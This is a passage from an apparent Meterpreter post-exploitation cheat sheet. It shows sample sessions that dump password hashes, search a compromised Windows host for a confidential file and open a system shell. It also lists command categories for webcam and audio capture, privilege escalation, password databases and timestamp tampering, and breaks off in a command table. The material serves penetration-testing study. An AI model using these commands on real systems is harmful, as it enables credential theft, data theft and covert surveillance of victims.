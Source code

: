 4. **Dumping Password Hashes:**

   ```plaintext
   meterpreter > hashdump
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   ```

5. **Searching for Files:**

   ```plaintext
   meterpreter > search -f confidential.txt
   Found 1 result...
     c:\Users\Public\Documents\confidential.txt
   ```

6. **Launching a Shell:**

   ```plaintext
   meterpreter > shell
   Microsoft Windows [Version 10.0.19042.1052]
   C:\Windows\system32>
   ```

## Built-in Commands Categories

1. **Core Commands:** Basic commands for interacting with Meterpreter.
2. **File System Commands:** Commands for navigating and manipulating the file system.
3. **Networking Commands:** Commands for network-related tasks.
4. **System Commands:** Commands for gathering system information and performing system-level operations.
5. **User Interface Commands:** Commands for interacting with the graphical user interface.
6. **Webcam Commands:** Commands for accessing the webcam.
7. **Audio Output Commands:** Commands for capturing audio output.
8. **Elevate Commands:** Commands for privilege escalation.
9. **Password Database Commands:** Commands for accessing password databases.
10. **Timestomp Commands:** Commands for manipulating file timestamps.

## Glossary

Below is a comprehensive list of Meterpreter commands and their descriptions.

| Command                           | Description                                                              |
|-----------------------------------|--------------------------------------------------------------------------|
| **Core Commands**                 |                                                                          |
| `background`                      | Backgrounds the current session                                          |
| `exit`                            | Terminates the Meterpreter session                                       |
| `guid`                            | Gets the session GUID (Globally Unique Identifier)                       |
| `help`                            | Displays the help menu                                                   |
| `info`                            | Displays information about a Post module                                 |
| `irb`                             | Opens an interactive Ruby shell on the current session                   |
| `load`                            | Loads one or more Meterpreter extensions                                 |
| `migrate`                         | Allows you to migrate Meterpreter to another process                     |
| `run`                             | Executes a Meterpreter script or Post module                             |
| `sessions`                        | Quickly switch to another session                                        |
| **File System Commands**          |                                                                          |
| `cd`                              | Changes directory                                                       |
| `ls`                              | Lists files in the current directory (dir will also work)                |